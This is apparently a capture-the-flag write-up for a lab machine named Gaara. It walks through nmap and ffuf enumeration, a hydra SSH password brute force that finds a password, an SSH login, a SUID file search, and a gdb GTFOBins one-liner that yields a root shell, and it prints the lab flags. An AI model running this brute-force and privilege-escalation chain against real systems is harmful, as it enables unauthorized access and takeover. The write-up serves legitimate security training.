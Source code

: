 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## Enumeration

### NMAP scan

Let's perform an `nmap` scan to find the open ports and the services running on the open ports.

```
$ nmap -T5 -Pn -A -p- 192.168.205.142
Starting Nmap 7.92 ( https://nmap.org ) at 2024-05-02 13:54 IST
Warning: 192.168.205.142 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.205.142
Host is up (0.073s latency).
Not shown: 62577 closed tcp ports (conn-refused), 2956 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:a3:6f:64:03:33:1e:76:f8:e4:98:fe:be:e9:8e:58 (RSA)
|   256 6c:0e:b5:00:e7:42:44:48:65:ef:fe:d7:7c:e6:64:d5 (ECDSA)
|_  256 b7:51:f2:f9:85:57:66:a8:65:54:2e:05:f9:40:d2:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 393.91 seconds
```

There are two open ports:

| Port | Service |
| ---- | ------- |
| 22   | ssh     |
| 80   | http    |

### Web enumeration

Let's visit the web server through our browser.

![1](https://github.com/Kunull/Write-ups/assets/110326359/54c15681-c889-4f61-baac-2cb77914a936)

Nothing useful, just a picture of the anime character [Gaara](https://en.wikipedia.org/wiki/Gaara).

### Directory brute forcing

We can use `ffuf` to brute force the web directories on the web server.

```
$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.205.142:80/FUZZ | grep "Status: 200"
________________________________________________

Cryoserver              [Status: 200, Size: 327, Words: 1, Lines: 303, Duration: 75ms]
:: Progress: [220560/220560] :: Job [1/1] :: 546 req/sec :: Duration: [0:10:12] :: Errors: 0 ::
```

If we visit the `/Cryoserver` page, we can find the following information.

![4](https://github.com/Kunull/Write-ups/assets/110326359/f6d40651-cb2d-498d-bc72-f2e0edda2ed7)

So, there are three other directories.

However, all of these include some story regarding the [Gaara](https://en.wikipedia.org/wiki/Gaara) character and serve asrabit holes.


## Exploitation

### Brute forcing SSH password

Now that we know the machine is based on [Gaara](https://en.wikipedia.org/wiki/Gaara), we can assume that there must be a `gaara` user.

Let's brute force the passwords for this `gaara` user.

```
$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt ssh://192.168.205.142
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-02 14:08:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.205.142:22/
[STATUS] 115.00 tries/min, 115 tries in 00:01h, 14344286 to do in 2078:53h, 14 active
[22][ssh] host: 192.168.205.142   login: gaara   password: iloveyou2
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-02 14:10:57
```

| Username | Password  |
| -------- | --------- |
| gaara    | iloveyou2 |

### SSH login

```
$ ssh gaara@192.168.205.142
The authenticity of host '192.168.205.142 (192.168.205.142)' can't be established.
ED25519 key fingerprint is SHA256:XpX1VX2RtX8OaktJHdq89ZkpLlYvr88cebZ0tPZMI0I.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.205.142' (ED25519) to the list of known hosts.
gaara@192.168.205.142's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gaara@Gaara:~$ 
```


## Post Exploitation
### local.txt

Let's `cat` the `local.txt` flag.

```
gaara@Gaara:~$ cat local.txt
c728c520ab0c97b7ea9820a1b73a0254
```

### Privilege escalation

We can use the `find` command to search for files on the system where the `setuid` bit is set.

```
gaara@Gaara:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount
```

We can now use on of these files to escalate our privilege.

Let's go to [GTFOBins](https://gtfobins.github.io) to search for an exploit for the `gdb` utility. 

![3](https://github.com/Kunull/Write-ups/assets/110326359/c41f68aa-fc93-40df-8122-a59d21ea374a)

Since we want a Bash shell, we have to modify the exploit slightly.

```
gdb -nx -ex 'python import os; os.execl("/bin/bash", "sh", "-p")' -ex quit
```

```
gaara@Gaara:~$ gdb -nx -ex 'python import os; os.execl("/bin/bash", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
sh-5.0# whoami
root
```

### proof.txt

We can now `cat` the `proof.txt` flag.

```
sh-5.0# cat /root/proof.txt
2c39a99c3217a56762321da6bf9860b3
```
